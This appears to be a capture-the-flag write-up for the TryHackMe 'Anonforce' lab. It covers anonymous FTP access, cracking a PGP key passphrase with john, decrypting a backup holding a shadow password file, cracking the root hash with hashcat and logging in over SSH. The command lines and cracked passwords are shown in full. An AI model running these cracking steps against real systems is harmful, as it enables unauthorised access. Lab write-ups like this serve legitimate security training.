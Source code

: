 # Anonforce

Nmap port scan
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-12 00:19 UTC
Nmap scan report for 10.10.139.53
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 95.31 seconds
```

# user.txt

Ftp has anonymous auth enabled.
We can read the *user.txt* file from the home directory of the only user


# root.txt

We find a *notoread* folder. In it there is a *backup.pgp* file and a *private.asc* file.

The first one is encrypted using the key in the second one. The second one is also encrypted and the password can be found using *johntheripper*.

When prompted to input a password, we give it the one that *john* gave us (xbox360).

We get the sha512crypt (hashcat 1800) hash of the password for root, which we can crack with hashcat. The password is *hikari*.

With this password it seems like we can log in with the user root through *ssh* and get *root.txt*.

```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ gpg2john private.asc > 4john
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ john 4john --show
anonforce:xbox360:::anonforce <melodias@anonforce.nsa>::private.asc

1 password hash cracked, 0 left


kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ gpg -d backup.pgp


kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ gpg -d backup.pgp > backup
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ cat backup
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::


kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ hashcat --force -m 1800 -a 0 root.hash /usr/share/wordlists/rockyou.txt

kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Anonforce_IN_PROGRESS$ ssh root@$IP

```